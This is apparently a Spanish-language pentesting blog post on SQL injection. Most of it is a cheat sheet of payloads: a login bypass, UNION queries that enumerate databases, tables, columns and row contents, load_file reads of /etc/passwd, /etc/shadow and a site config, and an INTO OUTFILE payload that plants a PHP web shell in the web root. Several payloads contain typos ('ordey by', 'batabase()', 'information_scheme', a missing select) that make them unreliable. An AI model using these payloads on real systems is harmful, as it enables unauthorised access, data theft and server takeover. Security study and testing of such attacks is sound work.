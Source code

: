 ```yaml
---
layout: single
title: SQL Injection.
excerpt: "SQL Injection es una vulnerabilidad que te permite realizar consultas o peticiones a la base de datos de un sitio web pudiendo extraer información delicada como el nombre de usuarios, emails, contraseñas y demás información que este almacenada dentro de la base de datos."
date: 2022-11-28
classes: wide
header:
  teaser_home_page: true
categories:
  - Pentesting
  - Ethical Hacking
tags:
  - SQLI
---
```

Existen distintos tipos de SQL injection como el based error, blind o truncation. En esta ocasion abordaremos los diferentes tipos y como detectarlos. 

SQLI based error.

Son peticiones que se realizan a la base de datos y si el servidor te interpreta la query como output. Por lo regular estas consultas se realizan en paneles de login para burlarlo y ganar acceso al sistema sin proporcionar contraseña en caso de que no este sanitisado y posteriormente enumerar las bases de datos en uso.

Si como output recibes un 1 con estas consultas es por que se acontece un SQLI based error.
```
' or 1=1-- -
' and 1=1-- -
```
```
' ordey by 100-- -					-> Con esta query puedes descifrar el número de tablas en una base de datos.
' union select batabase()-- -           		-> Mostrar el nombre de la base de datos en uso.
' union select version()-- -            		-> Ver la versión de la base de datos que esta en uso.
' union select user()-- -           			-> Ver el usuario administrador de la base de datos.  
' union load_file("/etc/passwd")-- -    		-> Listar archivos del sistema como el /etc/passwd o el /etc/shadow
' union load_file("/var/www/html/config.php")-- -	-> Listar la config del servidor
```

Enumerar el nombre de las bases de datos registrados en el sistema.
```
    ' union select schema_name from information_schema.schemata-- -
```


Iterar sobre las DB(0,1 | 1,2, | 1,3, | 2,1 | 2,2 | etc...)
```
    ' union select schema_name from information_scheme.schemata limit 0,1-- - 
```


Enumerar todas las bases de datos existentes en el sistema.
```
    ' union select group_concat(<schema_name>) from information_schema.schemata-- -   
```


Mostrar las tablas de una base de datos.
```
    ' union select group_concat(table_name) from information_schema.tables where table_schema="<name_DB>"-- -
```


Mostrar las columnas de una base de datos.
```
    ' union select group_concat(<column_name>) from information_schema.columns where table_schema="<name_DB>" and 
    table_name="<table_name>"-- -
```


Mostrar tabla y columna de la base de datos separados por ":".
```
    ' union select group_concat(table_name,":",column_name) from information_schema.columns where table_schema="name_D
"-- -
```


Mostrar las filas (contenido) de una tabla.(0x3a representa el ":" url encode).
```
    ' union select group_concat(fila1,0x3a,fila2) from name_table-- -
```


Depositar contenido en una ruta para saber si puedes subir una web shell.
```
    ' union select "probando" into outfile "/var/www/html/prueba.txt"-- -
```


Depositar una webshell dentro de un sitio web.
```
    ' union select "<?php system($_REQUEST['cmd']); ?>" into outfile "/var/www/html/prueba.php"-- -
```


